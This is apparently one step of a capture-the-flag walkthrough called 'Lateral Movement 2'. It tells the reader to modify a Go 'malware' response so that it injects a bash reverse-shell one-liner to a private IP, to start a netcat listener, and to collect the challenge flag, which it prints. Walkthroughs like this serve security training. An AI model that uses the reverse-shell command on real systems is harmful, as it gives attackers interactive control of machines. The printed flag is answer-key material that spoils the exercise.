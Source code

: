 # Lateral Movement 2

1. Resume From [🗂 Discovery 1](../04-Discovery-1/)
2. Rev Eng `ExecuteCommands` Function in [🗂 main](../04-Discovery-1/06-main)

3. Change Malware Response in [🗂 malware.go](./03-main.go)
```
Lines: 92 to 94
;/bin/bash -i >& /dev/tcp/10.120.0.7/9898 0>&1;
```
4. (Local PC) Start: `nc -l 0.0.0.0 9898`
5. Run `go run 03-main.go`
6. Get Flag: MAZAPA_5b84f8d3bff36108c88c36e65dce2d77
![Petromaz Map](./06-Real-Flag.png)